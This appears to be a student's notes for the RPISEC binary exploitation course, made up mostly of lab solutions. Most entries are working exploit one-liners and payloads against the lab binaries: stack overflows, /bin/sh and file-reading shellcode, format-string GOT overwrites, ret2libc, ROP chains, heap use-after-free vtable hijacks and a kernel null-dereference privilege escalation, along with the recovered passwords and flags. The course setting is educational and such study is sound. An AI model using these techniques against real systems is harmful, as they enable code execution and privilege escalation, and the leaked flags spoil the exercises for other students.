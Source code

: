 Wed 7-10 Sage 3101

irc.rpis.ec
6667
#rpisec

binexp_ta@cs.lists.rpi.edu


* <2015-01-27 Tue> x86
Course in 32bit.  906 instructions in base set.  Intel syntax in this
couse.

* <2015-01-30 Fri> loading
What happens when you run the binary? Lots of scary stuff.
Reverse engineering deals with only the binary on; no source 
code, no compilation/linking/assembling.

* Reverse engineering domain
** Static
What happens before running.  
** strings
Prints ASCII null terminated printable strings of length 4 or more 
in a file (i.e. binary); get dat password dawg.
* <2015-02-13 Fri> lab2
** pw 1 lab2start
** C 
Overflowed buf to write 0xdeadbeef to set_me.
./lab2C `python -c "print 'A'*15 + '\xef\xbe\xad\xde'"`
1m_all_ab0ut_d4t_b33f
** B
Forced print_name() to return to shell() instead of main and 
made shell()'s arg point to exec_string to execute the shell.
./lab2B `python -c "print 'A'*27 + '\x7D\x84\x04\x08' + 'A'*4 + '\xA0\x85\x04\x08'"`
exec string address: 0x080485A0
shell() address: 0x0804847d
i_c4ll_wh4t_i_w4nt_n00b
** A
Bash:
python -c "print 'ABCD'*100" > /tmp/video_games/foo.txt
0x8434441
python -c "print '\xCDB\x04\x84'*100 + '\n'"  > /tmp/video_games/foo.txt

in gdb:
run < /tmp/video_games/foo.txt

shell() address: 0x080484cd
ret address: 0x0804858D
D1d_y0u_enj0y_y0ur_cats?
* <2015-02-24 Tue> Lab 3
** C
Get a shell with:
payload: (python -c 'print "rpisec\n" + "\x90" * 30 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "\x90" * 22 + "\x3c\xf6\xff\xbf\n"'; cat;) | /levels/lab3/lab3C

th3r3_iz_n0_4dm1ns_0n1y_U!
** B
Payload opens the .pass file, reads its contents, and writes them to stdout.

shell_script = "\x31\xDB\x31\xC9\xF7\xE3\xB0\x73\x50\x68\x2E\x70\x61\x73\x68\x62\x33\x41\x2F\x68\\
x65\x2F\x6C\x61\x68\x2F\x68\x6F\x6D\xB0\x05\x89\xE3\xCD\x80\x89\xC3\x81\xEC\x00\x05\x00\x00\x89\x\
E1\xBA\x32\x00\x00\x00\xB8\x03\x00\x00\x00\xCD\x80\xBB\x01\x00\x00\x00\x89\xE1\x89\xC2\xB8\x04\x0\
0\x00\x00\xCD\x80\xB0\x01\x31\xDB\xCD\x80"


Padding to 156 bytes, which is the distance from the buffer in the given 
code to the return address.
print "\x90"*39 + shell_script + "\x90"*38 + "\xb0\xfa\xff\xbf"

wh0_n33ds_5h3ll3_wh3n_U_h4z_s4nd
** A
The "cat" payload from part B was reused for the purposes of this lab.  
The lab obstacle (every 3rd array entry being unaccessible null bytes) 
was addressed by using the byte immediately before every 3rd entry to 
produce the assembly "sub eax, 0x00000000", effectively nullifying the 
null bytes.  There were thus many 7 byte wide chunks to fit the actual 
code.  As many instructions as possible would be placed in these bytes, 
with the rest of the space occupied by nops.  

The resulting assembly is:

; shellcode to simulate the cat, for lab3A
Section .text
global _start

_start:
    ; clear a bunch of registers
    xor ebx, ebx
    mul ebx

    ; put 0 in ecx ( O_RDONLY ) and edx ( mode 0 ) is already 0 from the mul above
    ; xor edx, edx
    xor ecx, ecx
    nop
    sub eax, 0x00000000

    ; "/home/lab3end/.pass"
    push 0x00737361
    nop
    nop
    sub eax, 0x00000000
    push 0x702e2f64
    nop
    nop
    sub eax, 0x00000000
    push 0x6e653362
    nop
    nop
    sub eax, 0x00000000
    push 0x616c2f65
    nop
    nop
    sub eax, 0x00000000
    push 0x6d6f682f
    nop
    nop
    sub eax, 0x00000000

    mov ebx, esp
    mov al, 5
    int 0x80
    nop
    sub eax, 0x00000000

    ; at this point eax contains the file descriptor for the file we opened
    mov ebx, eax

    ; decrement the stack pointer so we don't overwrite our shellcode
    mov ecx, esp
    nop
    nop
    nop
    sub eax, 0x00000000
    sub ecx, 0x200
    nop
    sub eax, 0x00000000

    ; how many chars to read
    mov edx, 60
    nop
    nop
    sub eax, 0x00000000

    ; read
    mov eax, 3
    nop
    nop
    sub eax, 0x00000000
    int 0x80

    ; which interrupt
    mov eax, 4
    sub eax, 0x00000000
    ; which file descriptor
    mov ebx, 1
    nop
    nop
    sub eax, 0x00000000
    ; length of string to read
    mov edx, 60
    nop
    nop
    sub eax, 0x00000000
    int 0x80

    ; exit
    mov eax, 1
    sub eax, 0x00000000
    xor ebx, ebx
    int 0x80

The assembly between each 0x00000000 was converted to a decimal 
representation to be stored using the program's interface.  Finally, 
the EIP of main() was overwritten by accessing data out of bounds. 
The appropriate values of the index and the EIP value were gotten 
using gdb's i frame command and ltrace, respectively.  The 
final series of commands was thus:

store
3824671537
1
store
764463409
2
store
1936941416
4
store
764448768
5
store
774857832
7
store
764448880
8
store
1697866344
10
store
764448878
11
store
1815045480
13
store
764448865
14
store
1869098856
16
store
764448877
17
store
95478665
19
store
764444877
20
store
3783902089
22
store
764448912
23
store
33614209
25
store
764411904
26
store
15546
28
store
764448768
29
store
952
31
store
764448768
32
store
79200461
34
store
754974720
35
store
443
37
store
764448768
38
store
15546
40
store
764448768
41
store
28868813
43
store
754974720
44
store
2160974641
46
store
3221222588
113
quit

The password printed out is sw00g1ty_sw4p_h0w_ab0ut_d3m_h0ps.
* <2015-03-03 Tue> Lab 4
** C
(python -c "print '%08x'*40") | ./lab4C
Resulting string is fed into a short script:

a = 'bffff6080000001e0804b008b7e31bf8b7ff2d56b7fff000bffff724b7fff55cb7fffaf0000000000804b0080000001e7562000074315f377334775f625f376e337455727230665f623433630021653178383025783830257838302578383025'
b = [a[i:i+8] for i in range(0, len(a), 8)]
for i in xrange(len(b)):
    c = b[i]
    d = [c[j:j+2] for j in range(0, len(c), 2)]
    b[i] = "".join(d[::-1])
print "".join(b)

which is converted to ascii, and contains the password:
bu7_1t_w4sn7_brUt3_f0rc34b1e!
** B
Strategy: overwrite the exit() GOT address, located at 0x080499b8, to point to an environment variable with our shellcode.

shellscript to put in environment variable (execv /bin/sh): 
export SBAHJ=$(python -c "print '\x90' * 2000 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80'")

Get address with textbook's address finding program:
SBAHJ address: 0xBFFFF052

Work with fmt_lec02 to get the correct number of bytes to write to the vulnerable printf:
lec02 test payload: python -c "print '\x4c\xf6\xff\xbfBUTT\x4e\xf6\xff\xbfBUTT' + '%08x' * 4 + '%061474x' + '%hn' + '%053165x' + '%hn'" | ./fmt_lec02

Then take those values over to the real program:
real payload: (python -c "print '\xb8\x99\x04\x08BUTT\xba\x99\x04\x08BUTT' + '%08x' * 4 + '%061474x' +'%hn' + '%053165x' + '%hn'"; cat;) | /levels/lab4/fmt_labB

fg3ts_d0e5n7_m4k3_y0u_1nv1nc1bl3
** A
Strategy: overwite log_wrapper() EIP to go to environment variable.  Shellcode is same as lab4B.

SBAHJ address: 0xbffff16f
try for 0xbffff3c7

This address is overwritten using lecture fmt_02 binary:
python -c "print 'AAAA\xcc\xee\xff\xbfBUTT\xce\xee\xff\xbfBUTT' + '%08x' * 5 + '%062347x' + '%hn' + '%052280x' + '%hn'" | ./fmt_lec02

In the real program:
EIP: 0xbfffeecc
fixenv /levels/lab4/fmt_labA $(python -c "print 'A\xcc\xee\xff\xbfBUTT\xce\xee\xff\xbfBUTT' + '%08x' * 5 + '%062350x' + '%hn' + '%052280x' + '%hn'")

1t_w4s_ju5t_4_w4rn1ng
* <2015-03-13 Fri> Lab 5
** C
System at 0xb7e65190
buffer at 0xbffffab0
global at 0x0804a060
python -c "print 'cat /home/lab5B/.pass\x00' + 'A' * 134 + '\x90\x51\xe6\xb7' + 'BBBB\x60\xa0\x04\x08'" | ./lab5C

s0m3tim3s_r3t2libC_1s_3n0ugh
** B

Use a few gadgets:

Initialize registers
0x0806ec7b  adc eax, 0x80ea9f0 ; pop edx ; pop ecx ; pop ebx ; ret
0x0805c61e  add eax, 0x5e000002 ; xor eax, eax ; pop ebx ; ret
Increment EAX 11x
0x0807b745  inc eax; ret
Execute
0x0806f31e  int 0x80

Place "/bin/sh" as a command line arg @ 0xbffff955

Throw it all together:
(python -c "print 'A'*140 + '\x7b\xec\x06\x08' + '\x00'*12 + '\x1e\xc6\x05\x08' + '\x55\xf9\xff\xbf' + '\x45\xb7\x07\x08'*11 + '\x1e\xf3\x06\x08'"; cat;) | fixenv /levels/lab5/lab5B /bin/sh

th4ts_th3_r0p_i_lik3_2_s33
** A
This problem involved doing some stack pivoting and dealing with the new constraint 
that we may not index into data past the end of the buffer.  This constraint prevents 
us from overwriting the EIP of main(), we must use a negative index into data in order 
to overwrite the EIP of store_number() instead.  

Because environment variables and command line args are zerod out, "/bin/sh" must be 
placed on the stack in data.  The address into which it is placed is found in fixenv 
gdb, and the input is altered to match.  

location of data: 0xbffff5d8
store_number EIP: 0xbffff5ac
The difference between these two addresses is 44, so the EIP can be overwritten 
at index -11. 

"/bin/sh" on stack: 0xbffff618

Layout of data at the time of first gadget execution:
[-11] 0x08049b77 : add esp, 0x2c ; ret
[  1] 0x0806f390 : pop edx ; pop ecx ; pop ebx ; ret
[  2] 0x00000000
[  3] DOOM
[  4] 0xbffff618 (addr of /bin/sh)
[  5] 0x0806c069 : add esp, 4 ; ret
[  6] DOOM
[  7] 0x08054bf0 : xor eax, eax ; ret
[  8] 0x0806c069 : add esp, 4 ; ret
[  9] DOOM
[ 10] 0x080481b2 : ret
[ 11] 0x080966a2 : add eax, 0xb ; pop edi ; ret
[ 12] DOOM
[ 13] 0x08049741 : int 0x80
[ 14] 0x00000000
[ 15] DOOM
[ 16] 0x0068732f "/sh"
[ 17] 0x6e69622f "/bin"

Input that produces this layout:
store
134673296
1
store
3221222936
4
store
134660201
5
store
134564848
7
store
134660201
8
store
134513074
10
store
134833826
11
store
134518593
13
store
1852400175
16
store
6845231
17
store
134519671
-11

byp4ss1ng_d3p_1s_c00l_am1rite
* <2015-03-25 Wed> project 1
** pass: m0_tw33ts_m0_ch4inz_n0_m0n3y
* <2015-04-03 Fri> lab 6
** C
Partial overwrite EIP.  Restrict overwrite of msglen to magic number.  
(python -c "print 'A'*40 + '\xc5' + 'D'*282 + '\x13\ncat /home/lab6B/.pass'") | /levels/lab6/lab6C

p4rti4l_0verwr1tes_r_3nuff
** B
hash_pass() goes out of bounds of its array args when you write 32 chars to
them.  Use XOR magic to alter EIP.  Do one pass to read the current EIP and one
to alter it.  Handle the fact that it's XORs all the way down.  Python script is
attached.  

strncpy_1s_n0t_s0_s4f3_l0l
** A
1. Write 'cat /home/lab6end/.pass\x00\n' to ulisting's name with option 2.
2. Do a partial overwrite on merchant's sfunc by overflowing uinfo's name/desc 
to go to print_name().  This works 1/16th of the time.  Because of the overwrite,
print_name() prints out the location of sfunc.  Info status: leaked.
3. Head on over to make_note to abuse that gets().  Overwrite EIP to go to system()
(thanks to no PIE) and use the address of the string we wrote in step 1 as the arg.  
Python script is attached.

eye_gu3ss_0n_@ll_mah_h0m3w3rk
* <2015-04-10 Fri> lab7
** C
Abuse some use after free in order to get an infoleak on the address of small_str(),
then just offset the resulting address in order to get the address of system.  

Input/calculations:
offset = small_str - system
2
1
4
1
A
6
1
system_addr = resulting number - offset
1
/bin/sh
3
2
system_addr
5
2
cat /home/lab7B/.pass

us3_4ft3r_fr33s_4re_s1ck
** B
fr33bie_f0r_th1s_w33k
* <2015-04-17 Fri> lab8
** C
1st arg: open the pass, gets set to file descriptor 3.
2nd arg: file descriptor 3.  Magic.
./lab8C -fn=/home/lab8B/.pass -fd=3
<<<For security reasons, your filename has been blocked>>> is lexicographically equivalent to 3v3ryth1ng_Is_@_F1l3
** B
The offset in fave() is pretty incorrect, only advancing by a byte every time.
So you put the address of the win function (gotten from included infoleak) into
the unsigned int e and put 1 into everything else.  Sum the vectors, save the
result 5 times.  unsigned int e has now been written over the function pointer.
Load index 4 (5th) vector into vector 1 and print it.  We now have a shell.

Th@t_w@5_my_f@v0r1t3_ch@11
** A
findSomeWords() is a great big ruse.  There's a vulnerable printf in
selectABook() with which we can win.  Because selectABook() can recursively call
itself, we can take multiple runs at this printf().  With the first run, we leak
the address of buf_secure (the first 4 bytes after the printf) and the value of
the canary (the 130th parameter).  We enter a recursive call.  We offset the
buf_secure address to reach buf_secure in this new stack frame.  We put the
string "/bin/sh" on the buffer, then, being sure to preserve the canary, begin
writing a ROP chain beginning at EIP (132nd parameter to the printf()).  The ROP
chain calls execv() with the shell string as its arg.  scanf() doesn't like a
lot of bytes that could be interpreted as whitespace, so the gadget addresses
can't contain things like \x0a.  With the shell open, we cat the password.

flag{H4x0r5_d0nt_N33d_m3t4pHYS1c5}
* <2015-04-24 Fri> lab9
** C
offset = 157453
main's stack canary at 257
main's EIP at 261
/bin/sh string: system+1181844

There's a problem with the class constructor: len is initialized after
alloc_len, thus alloc_len is initialized to some big value.  We can abuse this
to overflow the array and read down the stack to overwrite EIP to take us to
system while preserving the stack canary.  

1_th0uGht_th4t_w4rn1ng_wa5_l4m3
** B
RP1S3C_Nuk3_i5_R3aDy!
** A
memory layout of hashset with size 2:
            vTable      m_size      hash_func?  set_data ptr
0x5655a030:	0x56558e50	0x00000002	0x00000000	0x5655a048
0x5655a040:	0x00000000	0x00000011	0x00000000	0x00000001
            2 bullshit bytes wtf    set_data[0]        [1]

memory layout of 2 identical hashsets allocated one after the other
            vTable      m_size      hash_func?  set_data*
0x5655a030:	0x56558e50	0x00000002	0x00000000	0x5655a048
            2 bullshit bytes wtf    set_data[0]        [1]
0x5655a040:	0x00000000	0x00000011	0x00000000	0x00000001
            2 more bullshit bytes   vTable      m_size
0x5655a050:	0x00000000	0x00000019	0x56558e50	0x00000002
            hash_func?  set_data*   2 bullshit bytes wtf
0x5655a060:	0x00000000	0x5655a070	0x00000000	0x00000011
            set_data[0] set_data[1] 
0x5655a070:	0x00000000	0x00000001	0x00000000	0x00020f89

how 2 overwrite vtable:
make 0 size 2
make 1 size whatever
delete 1
delete 0
make 0 size 4
add 4 to 0
call anything on 1
segfault

when you delete an object its vtable pointer is zerod out whyyyyy

vtable - system = 2776256

3 hashsets of size 2:

            vTable      m_size      hash_func?  set_data*
0x5655a058:	0x56558e50	0x00000002	0x00000000	0x5655a070
            2 bullshit words wtf    set_data[0]        [1]
0x5655a068:	0x00000000	0x00000011	0x00000000	0x00000000
            2 more bullshit words   vTable      m_size
0x5655a078:	0x00000000	0x00000019	0x56558e50	0x00000002
            hash_func?  set_data*   2 bullshit words wtf
0x5655a088:	0x00000000	0x5655a098	0x00000000	0x00000011
            set_data[0] set_data[1] 2 more bullshit words
0x5655a098:	0x00000000	0x00000000	0x00000000	0x00000019
            vTable      m_size      hash_func?  set_data*
0x5655a0a8:	0x56558e50	0x00000002	0x00000000	0x5655a0c0
            2 bullshit words wtf    set_data[0]        [1]
0x5655a0b8:	0x00000000	0x00000011	0x00000000	0x00000000
0x5655a0c8:	0x00000000	0x00020f39	0x00000000	0x00000000

how 2 leak vtable:
make 0, 1, 2, size 2
delete 1
delete 0
make 0 size 6
add 5*big number to 0
get 4 from 1

after freeing 1 then 0
gdb$ x/40x set_vec
0x5655a008:	0x5655a030	0x5655a058	0x5655a080	0x00000000
0x5655a018:	0x00000000	0x00000000	0x00000000	0x00000000
------------------------- set_vec ------------------------
            p chnk size chnk size   fd ptr      bk ptr?
0x5655a028:	0x00000000	0x00000019	0x5655a050	0x00000002
            hash func?  set_data*   p chnk size chnk size
0x5655a038:	0x00000000	0x5655a048	0x00000000	0x00000011
            fd ptr      bk ptr      p chnk size chnk size
0x5655a048:	0x5655a068	0x00000000	0x00000000	0x00000019
            fd ptr      bk ptr?     hash func?  set_data*
0x5655a058:	0x00000000	0x00000002	0x00000000	0x5655a070
            p chnk size chnk size   fd ptr      bk ptr
0x5655a068:	0x00000000	0x00000011	0x00000000	0x00000000
            p chnk size chnk size   vTable      m_size
0x5655a078:	0x00000000	0x00000019	0x56558e50	0x00000002
            hash func?  set_data*   p chnk size chnk size
0x5655a088:	0x00000000	0x5655a098	0x00000000	0x00000011
            set_data[0] set_data[1] 
0x5655a098:	0x00000000	0x00000D000	0x00000000	0x00020f61

----------------------------------------------------------------
By constructing and deleting some big lockboxes, you can cajole some 
magic address onto the heap that points into .text.  I can't explain it 
but thankfully neither can anyone in charge of this lab.  

We can leak this address and an address on the heap by aligning a new
lockbox over the rotting corpses of those other ones and get()ing some
information.  System is a fixed offset from this magic address.

We can finally do a use after free by overwriting the vtable of a deallocated
object to point to an array we control (gotten as an offset from the leaked heap
address).  Into this array we pour our cruelty, our malice, our will to dominate
all life, and a pointer to system plus one to the string ";sh;".  Call the
method corresponding to the index in our fake vtable we've constructed (in this
case, add()) and cat the password.

1_d1dNt_3v3n_n33d_4_Hilti_DD350
* <2015-05-01 Fri> lab10
** C
PIN: ux8ddjVJek

Write a separate C program to mmap the memory around 0x0 to executable, then
memcpy a shell script that does:

xor eax, eax
mov ebx, 0xc10488d7
call ebx
mov ebx, 0xc1048a69
call ebx
ret

to 0x0.  Write 0xcafebabe to the device twice, once to get algo_xor pointing to
0x0, another to get the device to execute the code at 0x0.  The C program's 
priveleges are now escalated, so call system() from there.

flag{I_h@v3_null_!d34_wut_!m_d0inG}
** A
PIN: 2Moc249okN
* <2015-05-10 Sun> project 2
** set keyauth flags
b *(main+0x11C)
break at program_nuke checksum comparison
b *0x56558bb3

write the keyauth flags, turn off sleeps
set *($eax+0x10) = 0xCAC380CD
set *($eax+0x14) = 0xBADC0DED
set *($eax+0x18) = 0xACC3D489
set *(0x565562f9) = 0x90909090
set *(0x565562f9+1) = 0x90909090

input code for checksum
set *(0x56562220) = 0xDCDC59A9
break at launch_nuke setup
b *0x56558d1c
break at launch_nuke jump table
b *0x565590f7
break at launch_nuke right before call detonate_nuke
b *0x56559244
Detonate on general doom with:
SGISEISNISEISRISAISLIS ISDISOISOISMDOOM

th3_pr1nt_funct10n_w4s_100_l!n3s_al0ne
